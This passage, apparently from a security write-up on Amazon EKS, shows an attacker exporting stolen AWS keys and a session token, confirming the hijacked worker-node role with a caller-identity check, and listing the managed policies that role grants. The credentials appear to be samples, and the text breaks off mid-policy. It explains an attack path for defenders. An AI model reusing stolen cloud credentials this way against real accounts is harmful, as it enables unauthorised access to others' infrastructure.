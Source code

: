 These values can then be set as environment variables:

```sh
export AWS_ACCESS_KEY_ID="ASIA4VDBL2NIXYVXTEPT"
export AWS_SECRET_ACCESS_KEY="d5NB5Jr/y+018xfUdjtuNO/3Q9sxmps21bW6rGK1"
set AWS_SESSION_TOKEN="IQoJb3Jp...B6alm4tBg6A=="
```

And with very little effort, the attacker has assumed the worker node's role:
```sh
aws sts get-caller-identity
{
    "UserId": "AROA4VDBL2CUDQE2KIGEY:i-0db92f4d7339c0c95",
    "Account": "000000000000",
    "Arn": "arn:aws:sts::000000000000:assumed-role/karpenter-worker/i-0db92f4d7339c0c95"
}
```

EKS worker nodes are typically configured with roles that include a number of AWS managed policies, enabling several privileged actions that are likely to be of interest to an attacker:

[AmazonEKSWorkerNodePolicy](https://docs.aws.amazon.com/aws-managed-policy/latest/reference/AmazonEKSWorkerNodePolicy.html)
```json
{
  "Version" : "2012-10-17",
  "Statement" : [
    {
      "Sid" : "WorkerNodePermissions",
      "Effect" : "Allow",
      "Action" : [
        "ec2:DescribeInstances",
        "ec2:DescribeInstanceTypes",
        "ec2:DescribeRouteTables",
        "ec2:DescribeSecurityGroups",
        "ec2:DescribeSubnets",
        "ec2:DescribeVolumes",
        "ec2:DescribeVolumesModifications",
        "ec2:DescribeVpcs",
        "eks:DescribeCluster",
        "eks-auth:AssumeRoleForPodIdentity"
      ],
      "Resource" : "*"
    }
  ]
}
```

[AmazonEC2ContainerRegistryReadOnly](https://docs.aws.amazon.com/aws-managed-policy/latest/reference/AmazonEC2ContainerRegistryReadOnly.html)
```json
{
  "Version" : "2012-10-17",
  "Statement" : [
    {
      "Effect" : "Allow",
      "Action" : [
        "ecr:GetAuthorizationToken",
        "ecr:BatchCheckLayerAvailability",
        "ecr:GetDownloadUrlForLayer",
        "ecr:GetRepositoryPolicy",
        "ecr:DescribeRepositories",
        "ecr:ListImages",
        "ecr:DescribeImages",
        "ecr:BatchGetImage",
        "ecr:GetLifecyclePolicy",
        "ecr:GetLifecyclePolicyPreview",
```